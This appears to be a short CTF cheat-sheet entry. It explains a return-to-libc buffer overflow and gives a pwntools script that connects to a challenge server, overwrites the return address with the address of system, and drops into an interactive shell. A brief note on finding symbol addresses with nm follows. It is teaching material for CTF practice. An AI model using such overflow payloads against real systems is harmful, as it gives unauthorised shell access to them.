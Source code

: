 # Shell
Idea is to find the adress of "system" and call it with a string we chose before (and know the adress of) that will provide the shell.

Example:
```python
import re
import requests
import socket
import string
from pwn import *

systemAddr = 0x080483e0
nameAddr = 0x0804a034

nc = remote('bof102.sstf.site', 1337)

nc.recvuntil(b"Name >")
nc.write(b"/bin/sh\n")
# Variable of length 16 + EBP (32 bits => size 4) + RET (call _puts) + EBP + ARG
payload = b"A"*16 + b"B"*4 + p32(systemAddr) + b"B"*4 + p32(nameAddr)
nc.write(payload + b"\n")

nc.interactive()
```

# nm
List symbols from object files
```bash
# Retrieve static adress of 'callme' inside binary quiz1
nm quiz1 | grep callme
080484eb T callme
```
